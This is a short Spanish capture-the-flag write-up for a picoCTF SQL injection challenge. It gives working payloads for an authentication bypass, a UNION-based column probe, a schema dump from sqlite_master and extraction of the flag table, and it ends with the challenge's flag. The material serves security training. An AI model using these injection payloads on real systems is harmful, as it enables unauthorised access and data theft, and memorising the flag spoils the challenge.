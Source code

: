 Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

Hints:
1.-SQLiLite
### Solución
```
Primero se accede metiendo la inyeccion en la parte de contraseña con
' or 1=1; y usuario admin, de este modo de arrojara verdadero y dara acceso

Nos damos cuenta que hay un campo de busqueda con el cual se checa cuantos campos tienen las tablas con
' union select 1,2,3

al ver que la inyeccion se efectua podemos ver las tablas con: ' UNION SELECT 1,2,sql FROM sqlite_master;

CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)
CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)

debemos de ver la tabla more_table que se ve contiene la flag: ' UNION SELECT 1,2,flag FROM more_table;

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```